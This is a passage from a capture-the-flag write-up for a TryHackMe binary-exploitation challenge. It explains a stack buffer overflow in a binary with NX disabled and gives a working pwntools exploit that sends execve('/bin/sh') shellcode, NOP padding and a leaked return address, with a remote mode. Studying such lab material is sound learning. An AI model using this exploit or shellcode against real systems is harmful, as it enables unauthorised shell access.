 80 byte allocated for local_58 but at the end of the decompiled code we see that read function takes 200 byte. This gives us exploitation advantage: **buffer overflow**

When we consider that NX is disabled we can execute a shell code with buffer overflow.

We find how much character infilate the buffer. Then we write the exploit.

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2018.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn104.pwn104'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

# check exploit-db for shellcode https://www.exploit-db.com/exploits/46907
shellcode  = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

io = start()
io.recvuntil(b'at ') #program gives us buffer location, we skip till that part
address = io.recvline() 
bufferLocation = p64(int(address, 16))

exploit  = b''
exploit += shellcode
exploit  += b"\x90"*(88-len(shellcode))
exploit += bufferLocation

io.sendline(exploit)

io.interactive()
```

